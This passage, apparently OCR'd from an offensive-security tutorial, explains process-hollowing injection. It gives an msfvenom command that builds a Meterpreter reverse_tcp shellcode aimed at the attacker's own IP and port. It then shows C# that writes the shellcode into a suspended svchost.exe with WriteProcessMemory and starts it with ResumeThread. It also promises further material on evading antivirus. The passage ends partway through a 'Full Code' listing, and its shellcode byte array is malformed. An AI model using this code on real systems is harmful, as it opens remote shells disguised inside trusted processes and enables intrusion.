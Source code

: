 First, create your simple shell code using the following command.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={YOUR-IP-ADDRESS} LPORT={YOUR LISTENING PORT} EXITFUNC=thread -f csharp
```
Now, we can write our shellcode into the created process memory using the following.

```csharp
byte[] shellcode = new byte[511] {
0xac,0x65,0x93,,0xf2,0xe6...
};
WriteProcessMemory(hProcess, addressOfEntryPoint, shellcode, shellcode.Length, out nRead);
```

### 5: The code is then executed by calling ResumeThread to let the suspended thread continue its execution as shown below.

```csharp
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
```

ResumeThread only accepts one argument which is the handle of the thread. we can get this value from PROCESS_INFORMATION structure that we used while creating the process.

Now we can resume the process using the following

```csharp
ResumeThread(ProcInfo.hThread);
```

After combining all the code, the project should be compiled for a 64-bit architecture since svchost.exe is a 64-bit process and the resulting compiled code will execute the shellcode within the svchost.exe process.

> **Note:**
> While our shellcode executes within a trusted process that communicates over the network, it remains detectable. Further efforts are required to achieve full evasion of anti-virus measures. In our upcoming articles, we will delve into more techniques to enhance our ability to operate covertly and bypass security measures such as shellcode encryption, obfuscation, and antivirus emulator bypass.


## The Full Code

```csharp
using System;
using System.Runtime.InteropServices;

public class Program
{
    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
    struct STARTUPINFO
    {
        public Int32 cb;
        public IntPtr lpReserved;
        public IntPtr lpDesktop;
        public IntPtr lpTitle;
        public Int32 dwX;
        public Int32 dwY;
        public Int32 dwXSize;
        public Int32 dwYSize;
        public Int32 dwXCountChars;
        public Int32 dwYCountChars;
        public Int32 dwFillAttribute;
        public Int32 dwFlags;
        public Int16 wShowWindow;
        public Int16 cbReserved2;
```